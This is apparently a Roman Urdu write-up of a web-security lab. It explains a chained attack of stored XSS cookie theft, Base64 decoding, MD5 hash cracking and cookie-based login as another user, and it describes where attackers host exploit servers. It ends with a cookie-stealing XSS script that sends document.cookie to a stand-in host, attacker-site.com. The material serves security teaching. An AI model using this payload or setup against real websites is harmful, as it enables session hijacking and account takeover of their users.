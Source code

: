 # Yeh kis tarah ki technique thi

## Stored XSS (Cross-Site Scripting) –
Isse tumne Carlos ka cookie browser se steal kiya.
👉 Real world main jab kisi website ka comment ya input field sanitize na kare to attacker XSS use karke user ka session ya cookie le sakta hai.

## Base64 Decoding –
Tumne cookie ko decode kiya jo Base64 encoded tha.
👉 Yeh encoding zyada secure nahi hoti, isliye attacker asani se decode kar sakta hai.

## Offline Password Hash Cracking –
Tumne Carlos ka hashed password CrackStation se crack kiya, jo MD5 hash tha.
👉 Yeh technique tab use hoti hai jab attacker ko password ka hash mil jaye aur wo usay brute force ya wordlist se crack kare.

## Cookie-based Authentication Bypass –
Tumne us cookie ka use karke Carlos ka account access kiya.
👉 Agar cookie poorly designed ho to attacker manually valid cookie generate kar ke kisi aur ka session le sakta hai.

### 🤔 Real World Main Kab Zaroorat Parti Hai?
✅ Jab website Base64 ya unhashed token use kare
✅ Jab password hash salted nahi hota (jaise is case main MD5 without salt)
✅ Jab koi input field XSS vulnerable ho
✅ Jab attacker ke paas access ho cookie ya token ka hash milane ka

### 💥 Short Summary:
Yeh ek combo attack tha jisme attacker pehle XSS se cookie churaata hai, phir cookie decode karta hai, hash crack karta hai, aur victim ban ke login karta hai.

Exploit Server jo lab main tha, real world websites main kahan hota hai?
Short Answer:
👉 Real world main "exploit server" ka koi fixed system nahi hota, lekin attacker khud apna server use karta hai — isay kehtay hain:
🔸 Attacker-controlled server
🔸 Payload delivery server
🔸 Listener server

# 🔍 Real world main attacker exploit server kahan set karta hai?
Free Hosting Services:

Attacker 000webhost, InfinityFree, Glitch, Replit, ya Render jaisay services use karta hai.

Yeh exploit-server jaisay kaam kartay hain — payload wahan daal kar target website par bhej dete hain.

Custom VPS (Virtual Private Server):

Attacker apna khud ka server rent karta hai (DigitalOcean, Linode, Vultr).

Phir wahan koi PHP listener ya simple logger bana leta hai.

Ngrok / Localhost Tunnels:

Agar attacker local machine pe kaam kar raha ho, to ngrok se apne PC ka URL bana ke usko exploit server ki tarah use karta hai.

### Example: https://random1234.ngrok.io/cookie

Burp Collaborator (Advanced tool):

Professional pentesting tools jaise Burp Suite Professional ek built-in Collaborator Server dete hain jo exactly exploit server jaisa hota hai.

Yeh DNS aur HTTP requests log karta hai jab victim interact karta hai.

### 🔥 Exploit Server real world main kis kaam aata hai?
✅ Cookies steal karne
✅ CSRF payload serve karne
✅ XXE file DTD serve karne
✅ SSRF exploit host karne
✅ XSS payload deliver karne
✅ Open Redirect ya Log4Shell trigger karne

## 📌 Example:
<script>document.location='https://attacker-site.com/log?cookie='+document.cookie</script>
